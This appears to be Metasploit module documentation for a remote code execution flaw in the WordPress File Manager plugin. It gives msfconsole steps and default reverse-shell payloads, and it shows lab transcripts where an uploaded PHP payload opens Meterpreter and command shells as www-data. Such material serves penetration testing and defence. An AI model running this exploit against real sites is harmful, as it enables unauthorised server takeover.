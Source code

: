 ## Vulnerable Application

Get a copy of version 6.0 plugin from https://wordpress.org/plugins/wp-file-manager/advanced/.

Vulnerable versions are 6.0-6.8. Versions below 6 are not vulnerable and version 6.9 has been patched.

## Verification Steps

1. Start msfconsole
2. Do: `use exploit/multi/http/wp_file_manager_rce`
3. Do: `set TARGETURI <target_uri>`
4. Do: `set RHOSTS <target_ip>`
5. Optional: Do: `set RPORT <target_port>`
6. Optional: Do: `set PAYLOAD <payload>` to switch payloads
7. Optional: Do: `set VERBOSE true` for more information
8. Do: `check` to confirm existence of vulnerability or `exploit` to let the shells rain

## Options
`TARGETURI`: location of the WordPres File Manager root directory. Change with `set TARGETURI <target_uri>`
`PAYLOAD`: the payload to execute. Change with `set PAYLOAD <payload>`

### Option Name
`TARGETURI`:  should point to the location of the WordPress File Manager root directory. By default, it is
`/wp-content/plugins/wp-file-manager`.
`PAYLOAD`: the payload to execute. By default, it is `php/reverse_php`.

## Scenarios

Tested against WordPress 5.5.1 in a Docker container with File Manager plugin version 6.0

### Docker container, WordPress 5.5.1, File Manager plugin version 6.0, default path for File Manager, default payload

```
msf6 > use exploit/multi/http/wp_file_manager_rce 
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
msf6 exploit(multi/http/wp_file_manager_rce) > set RHOSTS 127.0.0.1
RHOSTS => 127.0.0.1
msf6 exploit(multi/http/wp_file_manager_rce) > set RPORT 8080
RPORT => 8080
msf6 exploit(multi/http/wp_file_manager_rce) > set VERBOSE true
VERBOSE => true
msf6 exploit(multi/http/wp_file_manager_rce) > exploit

[*] Started reverse TCP handler on 192.168.137.128:4444 
[*] 127.0.0.1:8080 - Detected WordPress File Manager version 6.0
[*] 127.0.0.1:8080 - Payload is at /wp-content/plugins/wp-file-manager/lib/files/gnjqFk.php
[*] Sending stage (39264 bytes) to 172.17.0.2
[*] Meterpreter session 1 opened (192.168.137.128:4444 -> 172.17.0.2:45710) at 2020-10-11 00:49:34 +0800

meterpreter > sysinfo
Computer    : 6e5e66001274
OS          : Linux 6e5e66001274 5.8.0-kali1-amd64 #1 SMP Debian 5.8.7-1kali1 (2020-09-14) x86_64
Meterpreter : php/linux
meterpreter > getuid
Server username: www-data (33)
meterpreter > 
```

### Docker container, WordPress 5.5.1, File Manager plugin version 6.0, default path for File Manager, `php/reverse_php` payload
```
msf6 exploit(multi/http/wp_file_manager_rce) > set RHOSTS 127.0.0.1
RHOSTS => 127.0.0.1
msf6 exploit(multi/http/wp_file_manager_rce) > set RPORT 8080
RPORT => 8080
msf6 exploit(multi/http/wp_file_manager_rce) > set VERBOSE true
VERBOSE => true
msf6 exploit(multi/http/wp_file_manager_rce) > set PAYLOAD php/reverse_php
PAYLOAD => php/reverse_php
msf6 exploit(multi/http/wp_file_manager_rce) > exploit

[*] Started reverse TCP handler on 192.168.137.128:4444 
[*] 127.0.0.1:8080 - Detected WordPress File Manager version 6.0
[*] 127.0.0.1:8080 - Payload is at /wp-content/plugins/wp-file-manager/lib/files/G8hgHC.php
[*] Command shell session 2 opened (192.168.137.128:4444 -> 172.17.0.2:45718) at 2020-10-11 00:50:52 +0800

uname -a
Linux 6e5e66001274 5.8.0-kali1-amd64 #1 SMP Debian 5.8.7-1kali1 (2020-09-14) x86_64 GNU/Linux
whoami
www-data
```
